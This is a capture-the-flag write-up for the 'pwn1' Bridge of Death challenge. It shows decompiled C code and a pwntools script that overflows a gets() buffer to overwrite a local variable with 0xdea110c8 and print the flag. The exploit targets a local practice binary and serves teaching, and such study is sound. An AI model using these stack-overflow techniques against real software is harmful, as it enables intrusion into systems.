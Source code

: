 ## Solution 

```Cundefined4 main(void)

{
  int iVar1;
  char local_43 [43];
  int local_18;
  undefined4 local_14;
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  setvbuf(_stdout,(char *)0x2,0,0);
  local_14 = 2;
  local_18 = 0;
  puts(
      "Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other  side he see."
      );
  puts("What... is your name?");
  fgets(local_43,43,_stdin);
  iVar1 = strcmp(local_43,"Sir Lancelot of Camelot\n");
  if (iVar1 != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is your quest?");
  fgets(local_43,0x2b,_stdin);
  iVar1 = strcmp(local_43,"To seek the Holy Grail.\n");
  if (iVar1 != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is my secret?");
  gets(local_43);
  if (local_18 == L'\xdea110c8') {ch
    print_flag();
  }
  else {
    puts("I don\'t know that! Auuuuuuuugh!");
  }
  return 0;
}
```

To print the flag we have to somehow set the local_18 to `\xdea110c8` . We can see that after the first two Inputs as `Sir Lancelot of Camelot` and `To seek the Holy Grail.`
the code takes input in local_43 using `gets` . `gets` is vuln to overflow so we can overwrite till local_18 . We can see the relative addresses in the ghidra decompiled window  
:

![image](https://github.com/fidgetaryan445/NIghtmare/assets/148867576/5fa77b85-0a3f-4683-a19f-d3c3eca0be58)

The offset can clearly be seen of 43. 

So we can craft our payload : 


```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template pwn1
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'pwn1')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

io.recvuntil(b"What... is your name?")
io.send(b"Sir Lancelot of Camelot\n")
io.recvuntil(b"What... is your quest?")
io.send(b"To seek the Holy Grail.\n")
io.recvuntil(b"What... is my secret?")
payload = b'0'*0x2b + p32(0xdea110c8)
# shellcode = asm(shellcraft.sh())
io.send(payload)
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.interactive()

```

after running `python3 exp.py ` we get :


![image](https://github.com/fidgetaryan445/NIghtmare/assets/148867576/ba173443-bda9-474e-b3cf-2aeafc5b5c8a)
